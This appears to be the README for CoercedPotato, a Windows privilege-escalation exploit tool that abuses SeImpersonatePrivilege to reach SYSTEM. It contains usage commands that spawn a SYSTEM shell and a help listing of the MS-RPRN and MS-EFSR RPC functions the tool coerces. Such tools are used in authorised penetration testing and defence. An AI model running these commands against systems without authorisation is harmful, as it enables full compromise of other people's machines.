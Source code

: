 # Coerced potato

From Patate (LOCAL/NETWORK SERVICE) to SYSTEM by abusing `SeImpersonatePrivilege` on Windows 10, Windows 11 and Server 2022.

For more information: an article is coming very soon :D

A very quick PoooooC:

```txt
.\CoercedPotato.exe -c whoami
```
An other PoC with an interactive shell:

```txt
.\CoercedPotato.exe -c cmd.exe
```
<p align="center">
  <img src="poc.png">
</p>


## Usage

You can check the help message using the `--help` option.

```txt
                                                                  
   ____                            _ ____       _        _        
  / ___|___   ___ _ __ ___ ___  __| |  _ \ ___ | |_ __ _| |_ ___  
 | |   / _ \ / _ \ '__/ __/ _ \/ _` | |_) / _ \| __/ _` | __/ _ \ 
 | |__| (_) |  __/ | | (_|  __/ (_| |  __/ (_) | || (_| | || (_) |
  \____\___/ \___|_|  \___\___|\__,_|_|   \___/ \__\__,_|\__\___/ 
                                                                  
                                           @Hack0ura @Prepouce    
                                                                  
CoercedPotato is an automated tool for privilege escalation exploit using SeImpersonatePrivilege or SeImpersonatePrimaryToken.
Usage: .\CoercedPotato.exe [OPTIONS]

Options:
  -h,--help                   Print this help message and exit
  -c,--command TEXT REQUIRED  Program to execute as SYSTEM (i.e. cmd.exe)
  -i,--interface TEXT         Optionnal interface to use (default : ALL) (Possible values : ms-rprn, ms-efsr
  -n,--exploitId INT          Optionnal exploit ID (Only usuable if interface is defined) 
                               -> ms-rprn : 
                                 [0] RpcRemoteFindFirstPrinterChangeNotificationEx()
                                 [1] RpcRemoteFindFirstPrinterChangeNotification()
                               -> ms-efsr 
                                 [0] EfsRpcOpenFileRaw()
                                 [1] EfsRpcEncryptFileSrv()
                                 [2] EfsRpcDecryptFileSrv()
                                 [3] EfsRpcQueryUsersOnFile()
                                 [4] EfsRpcQueryRecoveryAgents()
                                 [5] EfsRpcRemoveUsersFromFile()
                                 [6] EfsRpcAddUsersToFile()
                                 [7] EfsRpcFileKeyInfo() # NOT WORKING
                                 [8] EfsRpcDuplicateEncryptionInfoFile()
                                 [9] EfsRpcAddUsersToFileEx()
                                 [10] EfsRpcFileKeyInfoEx() # NOT WORKING
                                 [11] EfsRpcGetEncryptedFileMetadata()
                                 [12] EfsRpcEncryptFileExSrv()
                                 [13] EfsRpcQueryProtectors()
                              
  -f,--force BOOLEAN          Force all RPC functions even if it says 'Exploit worked!' (Default value : false)
  --interactive BOOLEAN       Set wether the process should be run within the same shell or open a new window. (Default value : true)
                                                                                                                                                                                                                                             
                                                                                                                                                                                                                                                ```
